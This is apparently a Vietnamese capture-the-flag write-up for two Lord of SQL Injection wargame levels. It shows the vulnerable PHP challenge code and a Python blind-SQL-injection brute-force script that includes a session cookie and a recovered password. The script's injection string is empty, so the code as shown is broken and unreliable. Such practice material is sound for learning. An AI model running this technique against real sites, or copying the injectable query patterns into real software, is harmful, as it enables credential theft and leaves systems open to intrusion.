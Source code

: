 ## ORGE

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>php
```

Tương tự như DARKELF với ORC ta có solved.py

```python
import requests
import string
# len pw = 9
url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php'
char = string.printable
cookie = {'Cookie':'PHPSESSID=7ih6g2u8u6tdme1u61etcjhgb7'}
password =''
session = requests.session()
for i in range(1,9):
    for j in char:
        pass_1 = password + j
        print(pass_1)
        param = "".format(i,pass_1)
        r = session.get(url , params = param , headers = cookie)
        if ('Hello admin' in r.text):
            password = password + j
            print(password)
            break
#7b751aec
```

## TROLL

```php
<?php  
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match("/admin/", $_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```
